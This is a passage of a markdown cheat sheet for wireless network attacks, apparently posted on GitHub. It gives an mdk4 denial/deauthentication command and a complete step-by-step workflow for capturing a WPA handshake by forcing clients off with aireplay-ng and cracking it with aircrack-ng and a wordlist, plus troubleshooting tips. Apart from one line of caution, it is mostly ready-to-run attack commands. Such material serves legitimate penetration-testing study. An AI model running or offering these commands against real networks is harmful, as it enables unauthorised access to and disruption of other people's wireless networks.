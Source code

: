 ## 10) High-impact tools (Denial/Stress — be cautious)
```bash
# mdk4 example (many modes)
sudo mdk4 wlan0mon d
```
These can severely disrupt networks; only use in lab or on permissions.

---

## 11) Utility commands & service management
```bash
# Restart NetworkManager
sudo systemctl restart NetworkManager

# Alternatively (legacy)
sudo service NetworkManager restart
```

---

## 12) Example full workflow: capture WPA handshake → crack
```bash
# 1) Kill interfering processes
sudo airmon-ng check kill

# 2) Start monitor mode
sudo airmon-ng start wlan0
# => interface: wlan0mon

# 3) Start focused capture
sudo airodump-ng --bssid AA:BB:CC:DD:EE:FF -c 6 -w /tmp/handshake wlan0mon

# 4) Force clients to reconnect (in another terminal)
sudo aireplay-ng --deauth 5 -a AA:BB:CC:DD:EE:FF wlan0mon

# 5) Wait until airodump-ng shows "WPA handshake: AA:BB:CC:DD:EE:FF"

# 6) Crack using a wordlist
sudo aircrack-ng -w /usr/share/wordlists/rockyou.txt -b AA:BB:CC:DD:EE:FF /tmp/handshake-01.cap
```

---

## 13) Troubleshooting tips
- No handshake: ensure channel locked with `-c` and that client re-associates; try targeted deauth for the client MAC.
- Wrong interface name: check `iw dev` (drivers/versions vary: `wlan0mon`, `mon0`, `wlan0`).
- Injection fails: confirm card supports injection (monitor+injection); check chipset & driver.
- Services restart: after `airmon-ng check kill`, restore network with `systemctl start NetworkManager` or `service NetworkManager restart`.

---